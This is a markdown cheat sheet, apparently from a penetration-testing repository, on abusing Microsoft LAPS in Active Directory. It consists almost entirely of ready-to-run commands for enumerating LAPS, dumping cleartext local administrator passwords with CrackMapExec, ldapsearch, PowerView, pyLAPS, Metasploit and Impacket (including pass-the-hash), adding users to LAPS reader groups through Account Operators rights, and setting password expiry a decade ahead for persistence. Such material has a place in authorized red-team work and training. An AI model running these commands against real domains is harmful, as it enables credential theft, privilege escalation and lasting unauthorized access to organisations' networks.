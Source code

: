 # ENUMERATION

    dir "C:\Program\LAPS\CSE"

    Get-ChildItem 'c:\program files\LAPS\CSE\Admpwd.dll'

    Get-FileHash 'c:\program files\LAPS\CSE\Admpwd.dll'

    Get-AuthenticodeSignature 'c:\program files\LAPS\CSE\Admpwd.dll'

    reg query "HKLM\Software\Policies\Microsoft Services\AdmPwd" /v AdmPwdEnabled

    Get-ADObject 'CN=ms-mcs-admpwd,CN=Schema,CN=Configuration,DC=DC01,DC=Security,CN=Local'

### If admpwd.dll exists, then enumeration is successful.

# LAPS PASSWORD EXTRACTION

### The "ms-mcs-AdmPwd" is a "confidential" computer attribute that stores the clear-text LAPS password. Confidential attributes can only be viewed by Domain Admins by default, and unlike other attributes, is not accessible by Authenticated Users

#### 1) 

    Get-Command *Admpwd*

#### 2) 

    Find-AdmPwdExtendedRights -Identity *

#### 3) 
    
    net groups "GROUP_THAT_HAS_ACCESS_TO_LAPS"

#### 4) 

    Get-AdmPwdPassword -ComputerName PC_THAT_HAS_LAPS_ENABLED

## Possible tools: LAPSToolkit, Crackmapexec, ldapsearch

### If a user has access to view the LAPS password, we can use crackmapexec or ldapsearch to dump password:

#### 1) CrackMapExec

    crackmapexec smb IP_ADDRESS -u USER -p PASSWORD --laps --ntds

    crackmapexec smb 10.10.10.10 -u 'user' -H '8846f7eaee8fb117ad06bdd830b7586c' --laps

#### 2) ldapsearch

    ldapsearch -h IP_ADDRESS -b 'DC=DOMAIN,DC=LOCAL' -x -D USER@DOMAIN.LOCAL -w 'PASSWORD' "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd

#### 3) LAPSToolkit

    Get-LAPSComputers

    Find-LAPSDelegatedGroups

    Find-AdmPwdExtendedRights

#### 4) adsisearcher (native binary on Windows 8+)

 - ([adsisearcher]"(&(objectCategory=computer)(ms-MCS-AdmPwd=*)(sAMAccountName=*))"

 - ([adsisearcher]"(&(objectCategory=computer)(ms-MCS-AdmPwd=*)(sAMAccountName=MACHINE

#### 5) Powerview

    Get-DomainComputer COMPUTER -Properties ms-mcs-AdmPwd,ComputerName,ms-mcs-AdmPwd

    Get-DomainGPO | ? { $_.DisplayName -like "*laps*" } | select DisplayName, Name, GPCFileSysPath | fl

    Get-DomainObject -SearchBase "LDAP://DC=sub,DC=domain,DC=local" | ? { $_."ms-mcs-admpwdexpirationtime" -ne $null } | select DnsHostname

    Get-AdmPwdPassword -ComputerName wkstn-2 | fl (Find the principals that have ReadProperty on ms-Mcs-AdmPwd

    Get-DomainObject -Identity wkstn-2 -Properties ms-Mcs-AdmPwd (Read the password)

#### 6) pyLAPS (Linux)

### Read the password of all computers

    ./pyLAPS.py --action get -u 'Administrator' -d 'LAB.local' -p 'Admin123!' --dc-ip IP_ADDRESS

### Write a random password to a specific computer

    ./pyLAPS.py --action set --computer 'PC01$' -u 'Administrator' -d 'LAB.local'

#### 7) LAPSDumper (Linux)

    python laps.py -u 'user' -p 'password' -d 'domain.local'

    python laps.py -u 'user' -p 'e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c' -d 'domain.local

#### 8) AdmPwd.PS

    Find-AdmPwdExtendedRights -identity *

    Find-AdmPwdExtendedRights -identity 'OU' | select-object ExtendedRightHolders

    get-admpwdpassword -computername COMPUTER_NAME | Select password

#### 9) Metasploit

    use post/windows/gather/credentials/enum_laps

#### 10) Impacket

    impacket-GetLAPSPassword domain.local/USER1:Password@123 -dc-ip DC_IP

# GRANT LAPS ACCESS

### The members of the group "Account Operator" can add and modify all the non admin users and groups. Since LAPS ADM and LAPS READ are considered as non admin groups, it's possible to add an user to them, and read the LAPS admin password

    Add-DomainGroupMember -Identity 'LAPS ADM' -Members 'user1' -Credential $cred -Domain

    Add-DomainGroupMember -Identity 'LAPS READ' -Members 'user1' -Credential $cred -Domain

# LAPS Persistence

LAPS may be configured to automatically update a computers password on a regular basis. If we have compromised a computer and elevated to SYSTEM we can update the value to never expire for 10 years as a means of persistence.

#### PowerView

    Set-DomainObject -Identity wkstn-1 -Set @{'ms-Mcs-AdmPwdExpirationTime' = '136257686710000000'} -Verbose
    Setting 'ms-Mcs-AdmPwdExpirationTime' to '136257686710000000' for object '[HostName$]'
